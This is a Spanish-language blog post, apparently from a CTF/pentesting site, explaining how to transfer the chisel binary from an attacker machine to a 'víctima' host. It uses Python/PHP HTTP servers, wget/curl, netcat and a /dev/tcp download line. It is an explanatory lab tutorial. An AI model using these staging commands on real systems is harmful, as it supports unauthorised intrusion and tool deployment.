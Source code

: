 ```yaml
---
title       : "Creación de servidor local"
excerpt:      "Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre la máquina atacante y la víctima."
header:
  teaser: /assets/images/linux/prev.png
  teaser_home_page: true
  icon: /assets/images/TUX.png
classes		: wide
categories:
  - Sistemas
tags:  
  - Python
  - PHP
  - Netcat
  - Howto
---
```


![](/assets/images/linux/prev.png){: .align-center}

Realizaremos una pequeña explicación del método que utilizamos para transferir ficheros entre 2 máquinas.

> Para los ejemplos utilizaremos chisel como el binario que transferimos y el puerto 80.

Esto es muy útil en varios escenarios, pero un ejemplo típico es cuando queremos subir un binario a la máquina víctima. En primer lugar lo que necesitamos es colocarnos en el directorio donde tenemos los ficheros que queremos transferir. Una vez ahí, existen varias formas de crear un servidor, pero vamos a comentar las más usadas:

1. Python: `python3 -m http.server 80` 
2. PHP: `php -S localhost:80`

> Para el ejemplo hemos utilizado el puerto 80, ya que así no sería necesario especificar el puerto para recoger el fichero. Pero si está siendo usado, o por cualquier otro motivo no se puede utilizar, se introduce el que deseemos.

Una vez hemos creado este servidor, tendremos nuestros contenidos accesibles introduciendo nuestra IP local en la máquina víctima. Para recoger esos contenidos podemos utilizar también varias formas:

1. wget: `wget 192.168.1.150/chisel`
2. curl: `curl 192.168.1.150/chisel -o chisel`

Aquí adjunto una captura real realizando la máquina propia [Principle](https://kaianperez.github.io/principle/):

![](/assets/images/server/copychisel.png){: .align-center}

Bien, estas formas son las más recomendables, ya que son rápidas y versátiles, no darán problemas.


## EXTRA

<font color='red'>¿Y qué podemos hacer en caso de que no tengamos la posibilidad de usar esos binarios?</font>

Si bien es algo muy raro, podría ocurrir. En ese caso podemos usar nc. Para este ejemplo vamos a usar el puerto 4444:

Enviamos el fichero a transferir: `nc -nlvp 4444 < chisel`

Y lo recogemos con nc en la máquina víctima: `nc 192.168.1.150 4444 > chisel` 

![](/assets/images/server/nc.png){: .align-center}


<font color='red'>Estupendo, pero no tengo nc en la máquina víctima...</font>

En ese caso, servimos el fichero igualmente con nc y lo vamos a recoger de esta forma:

`cat > chisel < /dev/tcp/192.168.1.150/4444`

Pues con esto ya estaría, hemos tocado la mayoría de casos que se nos van a dar y cómo solventarlos. Basta indicar que esto se puede realizar en cualquier dirección y combinar la forma de crear el servidor con la de recoger el fichero. Espero os haya servido.